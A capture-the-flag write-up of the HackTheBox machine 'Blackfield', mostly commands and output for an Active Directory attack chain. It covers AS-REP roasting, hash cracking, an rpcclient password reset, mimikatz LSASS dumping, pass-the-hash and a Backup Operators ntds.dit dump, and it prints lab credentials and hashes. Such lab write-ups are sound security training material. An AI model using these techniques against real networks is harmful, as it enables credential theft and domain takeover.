 ```yaml
---
title: "HTB: Blackfield"
categories:
  - HackTheBox
tags:
  - HackTheBox
---
```


![Blackfield](https://i.ibb.co/RSnBf45/Blackfield.png)

# Blackfield

[[toc]]

## Initial Enumeration

We can see that a SMB share is open. If we connect to the smbshare with Guest:*blank* we can list the shares. The interesting share here is profiles$

```
smbclient Guest@10.10.10.192

# shares
ADMIN$
C$
forensic
IPC$
NETLOGON
profiles$
SYSVOL
```

profiles$ seems to give us a list of users, and since ldap and kerberos are both publically exposed, we can try seeing if any of these accounts don't have preauth set:


From here, we can use kerbrute to try a simple password spray against these usernames:

```
kerbrute passwordspray --dc 10.10.10.192 -d BLACKFIELD.local --user-as-pass userlist.txt -v
```

Only one account seems to exist, but it gives us a very interesting message:

```
2020/06/08 09:33:28 >  [!] support@BLACKFIELD.local:support - Got AS-REP (no pre-auth) but couldn't decrypt - bad password                               
```

It appears that this account is kerberoastable, but we'll need to add the domain "BLACKFIELD.local" to our /etc/hosts file first. After doing that, we can use impacket to get the krb5 hash, using a blank password:

```
GetNPUsers.py BLACKFIELD.local/support

$krb5asrep$23$support@BLACKFIELD.LOCAL:4d7b0ac10bb75f90b4b01004d2d679a1$d3cfdcd5f7aa151876e17385af9057c071fddcec5f4792d83a737f1b24d4b6cdd6d859fdc43c7d7c6e69b6900526f711cb23096ea32cad30fd4bfdf0d21076a08a4a81ae449dc8d59b26905f165b498c89a6d5820964171f4aa4adcc9f25d228758a4f7006451d6713359314e93feecebabcb62737197df1bb74a560f2727331c39015093a07721a58523908b366cd29e0792375dc7b91dff0ce11dc706d7650f56a159eb1085797b843e5186d11ed777f36a6f7d31b376939e2e02402aeb5e5e4b08f3920d1daa05f53b6b3a3f6ac5f54e708f2acfb80af59fab2bd91424ecc5d0d4e90a7eec7b6d96f3c1b17f96a280f4ce2cc
```

We can crack this with hashcat:

```
hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt --force

#00^BlackKnight
```

We have valid credentials:

**support:#00^BlackKnight**

We now need to check what they work on. This user doesn't have Remote Management rights, so we can't use winrm to remote into the machine. The credentials do work on smb, but don't give us anything we didn't have with the basic guest account. We can get a list of AD users, with GetADUsers.py:

```
GetADUsers.py -dc-ip 10.10.10.192 BLACKFIELD.local/support
#00^BlackKnight
```

While enumerating what else we can do with these credentials, we can consider what else this user might do for other users. Since a support user might reset passwords, we'll see if we can reset any passwords using rpcclient:

```
rpcclient -U support //10.10.10.192

setuserinfo2 audit2020 23 'thisISmyPASSWORD!'
```

This appears to go through, and lets us log in to SMB with the audit2020 user! While exploring smb with this user, we see that we now have access to the forensic folder.

Looking through the forensic folder, we see that there's an lsass.zip file in memory_analysis, that we can pull hashes from. To do this, we can transfer the zip over to a Windows VM, start up mimikatz with an administrator cmd.exe console, and use the following commands:

```
privilege::debug
sekurlsa::minidump lsass.DMP
sekurlsa::LogonPasswords
```

We get a number of hashes, but the most interesting are the Administrator and svc_backup hashes.

```
         * Username : Administrator
         * Domain   : BLACKFIELD
         * NTLM     : 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
         * SHA1     : db5c89a961644f0978b4b69a4d2a2239d7886368
         * DPAPI    : 240339f898b6ac4ce3f34702e4a89550


         * Username : svc_backup
         * Domain   : BLACKFIELD
         * NTLM     : 9658d1d1dcd9250115e2205d9f48400d
         * SHA1     : 463c13a9a31fc3252c68ba0a44f0221626a33e5c
         * DPAPI    : a03cd8e9d30171f3cfe8caad92fef621
```

We can use these hashes without cracking them with evil-winrm. The Administrator hash doesn't work, but svc_backup's hash still works:

```
evil-winrm -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d -i 10.10.10.192

*Evil-WinRM* PS C:\Users\svc_backup\Documents> 
```

Looking at our privileges show us that we're in the Backup Operators group, since we have the following privileges:

```
...
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
...
```

We'll can use the exploit at the following link to grab ntds.dit and get the hashes for every user on the box:

https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#abusing-backup-operators-group

We'll use the following script named cmd, and put it in C:\Windows\temp\:

NOTE: We need to add a couple "spaces" after each line, or it'll cut off the characters at the end of each line.

cmd:
```
set context persistent nowriters 
add volume c: alias temp
create
expose %temp% z:
```

Now, we need to run diskshadow:

```
diskshadow.exe /s C:\windows\temp\cmd
```

We'll grab the two dlls from https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug and import them, then run the following to grab ntds.dit from our new Z: backup:

```
Copy-FileSeBackupPrivilege z:\windows\NTDS\ntds.dit c:\tmp\ntds.dit -Overwrite
```

We just need to grab SYSTEM to pull down the hashes:

```
reg save HKLM\SYSTEM system.save
```

Now, we can download these to our attacking machine using evil-winrm, and pull our the hashes with secretsdump.py from impacket:

```
secretsdump.py -system system.save -ntds ntds.dit LOCAL

...
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
...
```

We don't need to crack this, since we can just pass the hash with evil-winrm!

```
evil-winrm -u Administrator -H 184fb5e5178480be64824d4cd53b99ee -i 10.10.10.192

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
blackfield\administrator
```

Voila, we have root!

As a note, we could have also used psexec.py to get a SYSTEM level shell, but only the Administrator user can read root.txt

```
C:\Users\Administrator\Desktop>whoami
nt authority\system

C:\Users\Administrator\Desktop>type root.txt
b'Access is denied.\r\n'
```
